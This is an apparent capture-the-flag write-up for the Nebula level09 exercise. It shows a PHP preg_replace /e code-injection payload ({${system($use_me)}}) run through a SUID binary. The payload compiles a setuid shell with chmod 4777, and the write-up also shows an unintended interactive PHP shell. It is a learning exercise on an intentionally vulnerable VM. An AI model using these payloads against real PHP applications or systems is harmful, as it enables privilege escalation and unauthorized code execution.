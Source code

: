 ```php
  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

In the `flag09` directory, we have the above PHP sample as well as a SUID binary.

```bash
level09@nebula:~$ cd ~flag09
level09@nebula:/home/flag09$ ls -lh
total 8.0K
-rwsr-x--- 1 flag09 level09 7.1K 2011-11-20 21:22 flag09
-rw-r--r-- 1 root   root     491 2011-11-20 21:22 flag09.php
```

At first I managed to solve this one really fast. When `flag09` is invoked with `-h`, it seemed like it passed the arguments directly to a PHP binary. So, I was able to drop into an interactive PHP shell and execute commands from there:

```bash
level09@nebula:/home/flag09$ ./flag09 -a
Interactive shell

php > system("id");
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
```

With this I would have been able to prepare the small `flag09` setuid shell and complete the level. However, I did not think this was the intended route so I continued to investigate the PHP program further.

The PHP code basically had 2 main functions. `markup()` and `spam()`. `markup()` would read the contents of a file (who’s location is read as the first command line argument), and using regex, search for a pattern matching `[email addr]` where *addr* will be the extracted part. It then as a callback executes `spam()` which will convert `.` to ` dot ` and `@` to ` AT `. I took a really long time researching the `preg_replace()` functions and potential exploits with it. Eventually I came across a post describing how code injection may be possible when `preg_replace()` is called with the `e` modifier. [This](http://www.madirish.net/402) blogpost explains the vulnerability in pretty great detail. That blogpost coupled with the PHP docs [here](http://php.net/manual/en/reference.pcre.pattern.modifiers.php) helps develop a payload for exploitation. The PHP documentation has a sample of `<h1>{${eval($_GET[php_code])}}</h1>` which is what I used to finish the final payload for this level.

Another thing to note about the PHP code is the `$use_me` variable passed to the `markup()` function. It only gets declared and never gets used later. I think the developer of this level wanted this to be a form of hint, but it was handy to get code execution as argument 2 on the command line will be the command we want to execute :)

So, to solve level09:

```bash
level09@nebula:/home/flag09$ echo -ne "[email {\${system(\$use_me)}}]" > /var/tmp/flag09.txt

level09@nebula:/home/flag09$ cat /var/tmp/flag09.txt
[email {${system($use_me)}}]

level09@nebula:/home/flag09$ ./flag09 /var/tmp/flag09.txt "gcc /var/tmp/shell.c -o /var/tmp/flag09; chmod 4777 /var/tmp/flag09"
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1

level09@nebula:/home/flag09$ /var/tmp/flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
